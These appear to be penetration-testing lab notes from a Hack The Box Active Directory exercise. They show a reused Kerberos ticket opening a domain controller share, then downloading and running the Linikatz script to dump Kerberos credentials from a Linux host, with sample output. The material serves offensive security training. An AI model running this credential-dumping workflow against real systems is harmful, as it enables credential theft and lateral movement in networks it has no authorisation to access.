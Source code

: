 ```powershell
Cached Tickets: (1)

#0>     Client: julio @ INLANEFREIGHT.HTB
        Server: krbtgt/INLANEFREIGHT.HTB @ INLANEFREIGHT.HTB
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0xa1c20000 -> reserved forwarded invalid renewable initial 0x20000
        Start Time: 10/10/2022 5:46:02 (local)
        End Time:   10/10/2022 15:46:02 (local)
        Renew Time: 10/11/2022 5:46:02 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

C:\htb>dir \\dc01\julio
 Volume in drive \\dc01\julio has no label.
 Volume Serial Number is B8B3-0D72

 Directory of \\dc01\julio

07/14/2022  07:25 AM    <DIR>          .
07/14/2022  07:25 AM    <DIR>          ..
07/14/2022  04:18 PM                17 julio.txt
               1 File(s)             17 bytes
               2 Dir(s)  18,161,782,784 bytes free
```

## Linikatz
* [Linikatz](https://github.com/CiscoCXSecurity/linikatz) is a tool created by Cisco's security team for exploiting credentials on Linux machines when there is an integration with Active Directory
* Linikatz brings a similar principle to `Mimikatz` to UNIX environments
* We need to be root on the machine
* Tool will extract all credentials, including Kerberos tickets, from different Kerberos implementations such as FreeIPA, SSSD, Samba, Vintella, etc
	* Places them in a folder whose name starts with `linikatz.`

#### Linikatz Download and Execution

```sh
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh

/opt/linikatz.sh

 (_)_ __ (_) | ____ _| |_ ____
| | | '_ \| | |/ / _` | __|_  /
| | | | | | |   < (_| | |_ / /
|_|_|_| |_|_|_|\_\__,_|\__/___|

             =[ @timb_machine ]=

I: [freeipa-check] FreeIPA AD configuration
-rw-r--r-- 1 root root 959 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Linux-Vendor-Firmware-Service
-rw-r--r-- 1 root root 2169 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Linux-Foundation-Firmware
-rw-r--r-- 1 root root 1702 Mar  4  2020 /etc/pki/
<SNIP>
Default principal: LINUX01$@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/10/2022 19:48:03  10/11/2022 05:48:03  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
    renew until 10/11/2022 19:48:03, Flags: RIA
    Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 , AD types: 
I: [kerberos-check] User Kerberos tickets
Ticket cache: FILE:/tmp/krb5cc_647401106_HRJDux
Default principal: julio@INLANEFREIGHT.HTB
```